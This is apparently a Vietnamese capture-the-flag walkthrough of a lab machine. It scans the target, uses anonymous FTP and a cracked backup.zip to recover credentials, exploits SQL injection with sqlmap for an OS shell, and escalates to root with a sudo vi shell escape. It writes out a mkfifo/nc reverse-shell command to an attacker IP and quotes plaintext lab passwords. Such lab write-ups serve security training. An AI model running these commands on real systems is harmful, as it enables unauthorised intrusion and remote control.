## Task 1


Thực hiện quét
```bash
sudo nmap --top-ports=1000 -T4 -sV -sC -Pn 10.129.95.174
```



> ftp
## Task 2


> anonymous
## Task 3


> backup.zip
## Task 4


> zip2john
## Task 5


Tiến hành crack file này


Chúng ta tiến hành giải nén sau đó đọc file index.php


à cái này còn dính md5 nữa nhưng đây là thuật toán đã bị crack


> qwerty789
## Task 6


> --os-shell
## Task 7


Sau khi đăng nhập thì xác định được ô search có khả năng bị SQL Injection thử với dấu ' thì nhận được error

sqlmap với --os-shell


Lúc này chúng ta sẽ có os-shell nhưng shell này hơi hạn chế nên tiến hành kết nối ngược về attack
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.15.234 4444 >/tmp/f &
```


Giờ chúng ta sẽ lấy shell đầy đủ
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
<CTRL+Z>
stty raw -echo; fg
<enter>
<enter>
export TERM=xterm
```
### User Flag
Dò tìm một hồi thì thấy được user.txt flag trước

### Root Flag
Chúng ta tìm thông tin trong thư mục /var/www/html/dashboard.php

Thu được password `P@s5w0rd!`


Chúng ta biết được rằng user này có thể `vi` với quyền root. Truy cập https://gtfobins.org/ để xem lệnh vi này

Có cách để spawn shell với quyền root
```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

# mở được vi thì chạy
:shell
```



